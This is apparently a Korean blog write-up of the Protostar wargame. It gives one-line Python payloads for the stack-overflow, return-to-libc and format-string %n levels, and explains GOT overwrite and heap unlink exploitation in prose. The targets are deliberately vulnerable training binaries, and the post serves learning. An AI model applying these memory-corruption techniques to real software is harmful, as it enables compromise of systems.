 ```yaml
---
layout: post
title: "protostar"
description: "protostar"
date: 2017-02-17
tags: [protostar, pwnable]
comments: true
share: true
---
```


##### stack0

``` python
(python -c 'print "A"*65';cat)|./stack0
```

##### stack1

``` python
./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
```

##### stack2

``` python
export GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
./stack2
```

##### stack3

``` python
(python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
```

##### stack4

``` python
(python -c 'print "A"*76+"\xf4\x83\x04\x08"';cat)|./stack4
```

##### stack5

``` python
ulimit -c unlimited
export aa="ls -al"
(python -c 'print "A"*76+"\xb0\xff\xec\xb7"+"AAAA"+"\x86\xff\xff\xbf"';cat)|./stack5
```

![protostar](/assets/images/protostar/protostar-01.PNG)

stack5번은 쉘코드 실행할 때 주소가 바뀌어서 core 덤프로 분석을 해서 바뀐 /bin/sh 주소를 넣었지만 안됐다.
그래서 ls -al이 박힌 환경변수에 넣고 RTL 했더니 정상적으로 뜬다.

##### stack6

``` python
ulimit -c unlimited
export aa="ls -al"
(python -c 'print "A"*76+"\xb0\xff\xec\xb7"+"AAAA"+"\x2c\xfa\xff\xbf"';cat)|./stack6
```

![protostar](/assets/images/protostar/protostar-02.png)

##### stack7

``` python
ulimit -c unlimited
export aa="ls -al"
(python -c 'print "A"*80+"\x83\x83\x04\x08"+"\xb0\xff\xec\xb7"+"AAAA"+"\x2c\xfa\xff\xbf"')|./stack7
```

![protostar](/assets/images/protostar/protostar-03.png)

0xb0xxxxxxxx 주소도 사용 불가능하다. ret에 ret를 넣어서 ret+4에 해당하는 주소로 넘어가고 RTL 공격이 가능해진다.

##### format0

```python
./format0 `python -c 'print "A"*64+"\xef\xbe\xad\xde"'`
```

##### format1

```python
./format1 `python -c 'print "\x38\x96\x04\x08AAA"+",%129$x"+",%129$x"'`
./format1 `python -c 'print "\x38\x96\x04\x08AAA"+",%129$n"+",%129$x"'`
```

![protostar](/assets/images/protostar/protostar-04.png)

%x 했을 때 값이 나눠져서 대충 때려 맞추는 식으로 했는데 .. 성공했다.

##### format2

```python
(python -c 'print "\xe4\x96\x04\x08"+"%60c%4$n"')|./format2
```

![protostar](/assets/images/protostar/protostar-05.png)

format1번처럼 값이 흩어져 있지 않고 4번째 주소에 바로 박혀있었다. 그래서 target is number가 바뀌는 것을 보고 64를 맞춰서 풀었다.

![protostar](/assets/images/protostar/protostar-06.png)

##### format3

![protostar](/assets/images/protostar/protostar-07.png)

12번째에 0x41이 박혀있었다.

``` python
(python -c 'print "\xf4\x96\x04\x08"+"\xf6\x96\x04\x08"+"%21820c%12$n%43966c%13$n"')|./format3
```

넣을 값의 주소는

080496f4 g     O .bss	00000004              target

target에 들어갈 주소는 0x01025544이다.

포맷 스트링은 2바이트씩 끊어서 넣어야하기 때문에 주소값을 2개 넣었고,

앞에는 5544 - 8byte한 10진수 값 (8바이트를 빼는 이유는 앞에서 주소 값을 넣을 때 8바이트를 사용 했기 때문이다.)

뒤에는 0102인데 여기서 5544를 빼면 음수가 나오기 때문에 10102 - 5544를 하면 4바이트가 박히고 나머지 1바이트는 밀리게 되므로 상관이 없다.

뒤에가 0102이고 앞이 5544인 이유는 리틀 엔디언 때문이다.

![protostar](/assets/images/protostar/protostar-08.png)

![protostar](/assets/images/protostar/protostar-09.png)


##### format4

문제의 힌트에서 objdump -TR을 사용하라고 한다.

![protostar](/assets/images/protostar/protostar-14.png)

![protostar](/assets/images/protostar/protostar-13.png)

4번째에 0x41이 박혔다. 그 이후로 잘 모르겠다.. 더 찾아봐야겠다.

##### heap0

![protostar](/assets/images/protostar/protostar-10.png)

heap은 malloc으로 원하는 크기의 공간을 가지게 되서 그 공간을 다 채우고 더 넣으면 오버플로우가 생긴다.

그래서 A로 buffer + dummy + sfp 인 것 같은데 아무튼 72바이트 다음에 4바이트가 nowinner를 가리키고 있었다.

그래서 winner의 주소값을 알아내고 level passed를 띄웠다.

![protostar](/assets/images/protostar/protostar-11.png)

##### heap1

소스코드를 보면 malloc이 8바이트 생성을 했는데 입력한 값들을 strcpy로 복사를 한다. 첫번째 i1->name에서 오버플로우를 시켜서 두번째에 값을 넣을 주소를 변조 시켜주면 풀 수 있다.

![protostar](/assets/images/protostar/protostar-18.png)

gdb로 까보니 puts로 출력되는 것을 보고 puts의 got에 winner 함수의 주소를 넣었더니 풀렸다.

![protostar](/assets/images/protostar/protostar-15.png)

![protostar](/assets/images/protostar/protostar-16.png)

![protostar](/assets/images/protostar/protostar-17.png)

##### heap3

free를 연속적으로 해서

마지막에 dynamic failed?를 출력할 때 puts를 사용했는데 put GOT에 winner 함수를 넣으면 풀릴 것 이다.


![protostar](/assets/images/protostar/protostar-19.png)

32바이트 크기를 malloc 했고 8바이트는 이에 대한 정보가 들어있다. 그래서 총 40바이트다.

"\x90"으로 버퍼를 채우고 puts got에 winner 함수를 덮어 쓰려고 했는데 세그먼트 폴트가 뜬다. 권한 문제였다.

그래서 실행 할 공간인 스택에 넣기로 했다. 그래서 winner shellcode를 넣고 \xfc\xff\xff\xff를 넣음으로써 prev_size를 조작해서 b address+4로 인식 한다.

prev_size는 이전 chunk의 크기 정보를 기록하는데 이전 chunk의 위치를 조작하는 것이다.

fd+12=bk, bk+8=fd를 이용해서 원하는 주소에 원하는 값을 넣어서 실행 할 수 있다.

그래서 aaaa로 더미 값을 넣고 우리가 실행해야 할 puts got의 -12주소인 0x0804b128-12 = 0x0804b11c를 fd에 넣고 bk에 0x0804c008(winner 함수)을 넣어서 조작을 한다.

마지막 A는 값을 무조건 3개를 넣어야 하니까 dummy 값으로 아무거나 넣었다.


관련 문서와 문제를 계속 풀어봐야겠다..
